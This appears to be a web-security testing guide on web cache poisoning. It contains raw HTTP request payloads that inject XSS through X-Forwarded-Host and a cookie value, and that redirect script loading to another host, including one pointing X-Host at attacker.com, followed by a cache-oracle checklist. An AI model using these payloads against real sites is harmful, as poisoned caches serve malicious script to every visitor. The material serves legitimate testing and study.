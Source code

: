 ## Exploiting
* A header like **`X-Forwarded-For`** is being reflected in the response unsanitized.
> You can send a basic XSS payload and poison the cache so everybody that accesses the page will be XSSed.
> Note that this will poison a request to `/en?region=uk` not to `/en`
```javascript
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```
* Using web cache poisoning to exploit **`cookie-handling`** vulnerabilities
```javascript
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
```
* Using multiple headers to exploit web cache poisoning vulnerabilities
  * you may find an Open redirect if you set `X-Forwarded-Host` to a **domain controlled by you**
  * `X-Forwarded-Scheme` to http
```javascript
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```
* limited Vary header
If you found that the X-Host header is being used as domain name to load a JS resource but the Vary header in the response is indicating User-Agent. Then, you need to find a way to exfiltrate the User-Agent of the victim and poison the cache using that user agent:
```javascript
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```

## Comprehensive Web Cache Poisoning Testing Checklist

### 1. Identify a Suitable Cache Oracle

Objective: Find a page/endpoint that provides feedback on cache behavior.

Steps:

* Look for pages with dynamic content (e.g., redirects, time-sensitive data).

* Check for cache-related headers like `Cache-Status`, `X-Cache`, or `Age`.

* Test response times (cached responses are typically faster).

* Use third-party cache-specific headers (e.g., `Pragma: akamai-x-get-cache-key` to reveal cache keys).

Example:
```html
GET /?param=test HTTP/1.1
Host: example.com
Pragma: akamai-x-get-cache-key
```
If the response includes `X-Cache-Key: example.com/?param=test`, this is a valid cache oracle.
